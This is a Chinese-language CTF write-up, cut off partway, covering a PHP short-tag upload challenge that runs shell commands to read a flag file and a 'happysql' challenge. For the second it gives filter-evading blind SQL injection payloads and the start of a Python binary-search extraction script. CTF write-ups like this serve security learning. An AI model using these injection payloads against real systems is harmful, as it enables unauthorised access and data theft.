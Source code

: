 使用 `?action=pwd` 得到当前沙盒路径 `sandbox/4e5b09b2149f7619cca155c8bd6d8ee5/`。使用 `<?=` 标签构造出 payload <code>?action=upload&data=\<?=&grave;ls%09/&grave;?></code> 之后再访问沙箱路径可得如下内容。

```plain text
!whatyouwantggggggg401.php bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

构造出 <code>?action=upload&data=\<?=&grave;nl%09/!whatyouwantggggggg401.*&grave;?></code> 后再访问沙箱路径查看页面源代码可以发现如下内容，从而可以得到 flag。

```php
1	<?php $flag = 'flag{85d95bb1-3831-4529-8bfa-cc7336c57b27}';?>
```

```flag
flag{85d95bb1-3831-4529-8bfa-cc7336c57b27}
```

### happysql

随手注册一个账号登录上去可以发现并没有业务界面，结合题目猜测是 SQL 注入，且注入点在登录或者注册的页面。因此构造出如下 payload 验证得到一个布尔逻辑。

```plain text
username=null"/**/||/**/1/**/In/**/(1)#
&password=122
```

于是尝试读取出数据库名，此时可以发现很多字符被 ban 了。这里记录一下部分遇到的字符。

```plain text
or,and,=,>,<,substr,if,[空格],+,-
```

此时可以采用 `In (1,2,3...)` 的方式来二分盲注，使用 `case when ... then ... else ... end` 的语法来做逻辑判断。需要注意的是 `in` 并不是匹配一个区间而是需要穷举，譬如 `select (2 in (1,3))` 返回的将会是 0，应为此时的 2 既不是 1 也不是 3。因为 `substr` 被禁用，因此采用 `left(reverse(left({sql},n)),1)` 的办法来读到每一位。此时构造出如下两个 payload 即可验证可行性。

```plain text
username=null"/**/||/**/(case/**/when(ascii(left(reverse(left((select/**/database()),1)),1)))/**/in/**/(99)then(cot(0))else(1)end)#
&password=122
username=null"/**/||/**/(case/**/when(ascii(left(reverse(left((select/**/database()),1)),1)))/**/in/**/(0)then(cot(0))else(1)end)#
&password=122
```

写个脚本用二分法查出表名。因为 `or` 被禁用导致没有 `information_schema` 可用，此时可以采用 `mysql.innodb_table_stats` 代替其查出表名。因为无法查出列名，因此采用无列名注入。写个脚本跑出 flag。

```python
import time
from urllib.parse import urlencode
import requests

url = ".../login.php"
session = requests.session()


def main():
    text = ""
    keywords = ""
    for i in range(200):
        low = 32
        high = 126
        while low <= high:
            mid = int((low + high) / 2)
            # sqlContent = "select/**/database()".replace(" ", "/**/")  #ctf
            # sqlContent = "select group_concat(table_name) from mysql.innodb_table_stats".replace(" ", "/**/")  #ctf,f1ag,gtid_slave_pos
```